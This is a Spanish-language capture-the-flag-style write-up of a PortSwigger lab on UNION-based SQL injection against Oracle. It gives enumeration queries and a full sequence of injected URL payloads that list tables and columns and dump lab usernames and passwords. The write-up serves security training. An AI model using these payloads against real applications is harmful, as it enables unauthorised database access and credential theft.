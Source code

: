 # `LAB`: SQL injection attack, listing the database contents on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual` 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a `Oracle`
- En este caso es llegar hasta el login con `adminsitrador`
- Es un poco diferente a MySQL el dump de información de Oracle, así que pondré el proceso completo:

---

### Explicación para enumerar `DB Info`, `Tablas`, `Columnas` y `Data` Oracle

**`DB Info`:** Enumerar en Oracle Base de Datos, versión, etc:

````sql
# Banner:
SELECT banner FROM v$version
# Version:
SELECT version FROM v$instance
````

**`Tablas`:** En Oracle se pone originalmente para mostrar todas las tables:

````sql
# Enumerar nombres de tablas:
SELECT table_name FROM all_tables;
````

Para seleccionar solo la base de datos que estamos usando en Oracle es más fácil utilizar los usarios que utilizan la DB _(en este caso el más obvio de un user no default era "Peter")_:

````sql
# Enumerar propietarios de tablas:
SELECT table_name FROM all_tables WHERE owner = 'PETER';
````

**`Columnas`:** En Oracle se pone la siguiente sintaxis para mostrar las columnas

````sql
# Enumerar propietarios de tablas:
SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS_GZGVRP';
````

**`Data`:** En Oracle la data se extrae igual que en MySQL u otros BDSM:

````sql
# Enumerar propietarios de tablas:
SELECT PASSWORD_VNKKZP,USERNAME_VLWODI FROM USERS_GZGVRP;

# Concatenando en un solo campo
SELECT PASSWORD_VNKKZP||' ::: '||USERNAME_VLWODI FROM USERS_GZGVRP;
````

## Solución:

````py
# Vulnerabilidad y sanamiento
.web-security-academy.net/filter?category=Pets' -- -

# Mostrar info oculta (opcional)
.web-security-academy.net/filter?category=Pets' or 1 = 1 -- -

# Fuzzing Número de Columnas
.web-security-academy.net/filter?category=Pets' order by 2 -- -

## Columnas vulnerables: Como es caso de Oracle NO SIRVE el siguiente query:
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' -- -

## Columnas vulnerables: Este es el que se debe utilizar, con la default table "dual":
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' FROM dual -- -

    ### Enumer Tablas:

# TODAS: Utilizar sintaxis Oracle para enumerar Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM all_tables -- -
# Filtrando por User: A diferencia de MySQL es mejor enumerar tablas por propietario:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM all_tables WHERE owner = 'PETER' -- -
        ## PRODUCTS
        ## USERS_GZGVRP

    ### Enumer Columnas:

# Enumerar todas las columnas de la tabla "USERS_GZGVRP"
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM all_tab_columns WHERE table_name = 'USERS_GZGVRP' -- -
        ## PASSWORD_VNKKZP
        ## USERNAME_VLWODI

    ### Data Dump!!!:
.web-security-academy.net/filter?category=-Pets' Union Select '1',PASSWORD_VNKKZP||' ::: '||USERNAME_VLWODI FROM USERS_GZGVRP -- -
        ## 6yzszhm1lq9t6o7v8tji ::: administrator
        ## ntyvu0tt06veacxzos1b ::: carlos
        ## y8m3qcueovqb7ao29fky ::: wiener

````
